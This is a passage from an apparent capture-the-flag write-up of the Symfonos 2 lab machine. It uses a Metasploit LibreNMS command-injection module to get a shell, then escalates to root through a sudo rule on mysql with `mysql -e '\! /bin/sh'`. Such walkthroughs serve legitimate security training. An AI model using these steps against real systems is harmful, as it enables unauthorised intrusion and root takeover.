 - Try `php/webapps/47044.py` later. For now, I'll use Metasploit. 

#### Metasploit

- `search librenms` 

- ```
  use exploit/linux/http/librenms_addhost_cmd_inject
  ```
- `show options` 
- `set` all the values. It should look like this. 

![Symfonos 2 LibreNMS Metasploit Options](/imgs/symfonos2/symfonos2_libreNMS_metasploit_options.png)

- `exploit` or `run` to exploit. And we get a shell. 
- `whoami` => `cronus` 

---

### Privilege Escalation

- `sudo -l` => `mysql` 
- [GTFOBins MySQL](https://gtfobins.github.io/gtfobins/mysql/#shell) 
- `mysql -e '\! /bin/sh'` 

![Symfonos 2 MySQL Privilege Escalation](/imgs/symfonos2/symfonos2_mysql_privilege_escalation.png)

- `whoami` => `root` 
- `cat /root/proof.txt` 

![symfonos2_root_proof.png](/imgs/symfonos2/symfonos2_root_proof.png)

